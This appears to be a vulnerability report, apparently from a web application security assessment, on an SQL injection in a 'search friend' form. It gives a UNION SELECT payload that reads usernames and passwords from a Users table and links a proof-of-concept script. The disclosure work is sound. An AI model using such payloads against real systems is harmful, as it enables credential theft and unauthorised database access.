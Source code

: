 # Vulnerability 12: SQL Injection in search friend form allows arbitrary read from database

- Vulnerability: SQL Injection
- Where: Search friend form field
- Impact: Allows arbitrary read from the database


## Steps to reproduce

1. Search for friend:
```
' AND 1=0
UNION 
    SELECT username, name, name, password, password 
    FROM Users #
```


## Notes
The POC demonstrates that it is possible to write an arbitrary `SELECT` query in this injection. As shown [here](profile_2.md), it is possible to read arbitrary data from the database

[POC](search_friend_1.py)
